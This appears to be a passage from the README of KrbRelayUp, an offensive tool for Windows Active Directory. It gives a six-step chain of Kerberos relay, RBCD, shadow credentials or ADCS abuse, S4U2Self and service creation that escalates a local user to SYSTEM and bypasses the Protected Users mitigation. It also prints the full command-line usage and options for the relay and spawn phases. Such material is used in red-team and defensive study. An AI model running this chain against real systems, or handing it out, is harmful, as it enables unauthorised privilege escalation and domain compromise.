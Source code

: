 ***Note***: *this attack method bypasses the Protected Users (or 'Account is sensitive and cannot be delegated') mitigation due to the S4U2Self abuse.*

1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to ADCS (HTTP) ([KrbRelay](https://github.com/cube0x0/KrbRelay) and [ADCSPwn](https://github.com/bats3c/ADCSPwn/))
3. Generate certificate request on behalf of the local machine account, submit it to ADCS Web Enrollment and finally retreive the certificate for the local machine account ([ADCSPwn](https://github.com/bats3c/ADCSPwn/))
4. Using said certificate to obtain a TGT for the local machine account via PKInit. ([Rubeus](https://github.com/GhostPack/Rubeus/))
5. Using the TGT to obtain privileged ST to local machine via S4U2Self and TGSSUB. ([Rubeus](https://github.com/GhostPack/Rubeus/))
6. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))


## Usage
```
KrbRelayUp - Relaying you to SYSTEM

FULL: Perform full attack chain. Options are identical to RELAY. Tool must be on disk.

RELAY: First phase of the attack. Will Coerce Kerberos auth from local machine account, relay it to LDAP and create a control primitive over the local machine using RBCD or SHADOWCRED.
Usage: KrbRelayUp.exe relay -d FQDN -cn COMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -m   (--Method)                   Abuse method to use in after a successful relay to LDAP <rbcd/shadowcred> (default=rbcd)
    -p   (--Port)                     Port for Com Server (default=12345)
    -cls (--Clsid)                    CLSID to use for coercing Kerberos auth from local machine account (default=90f18417-f0f1-484e-9d3c-59dceee5dbd8)

    # RBCD Method:
    -c   (--CreateNewComputerAccount) Create new computer account for RBCD. Will use the current authenticated user.
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=KRBRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (default=RANDOM [if -c is enabled])

    # SHADOWCRED Method:
    -f   (--ForceShadowCred)          Clear the msDS-KeyCredentialLink attribute of the attacked computer account before adding our new shadow credentials. (Optional)

    # ADCS Method:
    -ca  (--CAEndpoint)               CA endpoint FQDN (default = same as DC)
    -https                            Connect to CA endpoint over secure HTTPS instead of HTTP)
    -cet (--CertificateTemplate)      Certificate template to request for (default=Machine)


SPAWN: Second phase of the attack. Will use the appropriate control primitive to obtain a Kerberos Service Ticket and will use it to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -m   (--Method)                   Abuse method used in RELAY phase <rbcd/shadowcred> (default=rbcd)
    -i   (--Impersonate)              User to impersonate. should be a local administrator in the target computer. (default=Administrator)
    -s   (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc  (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

```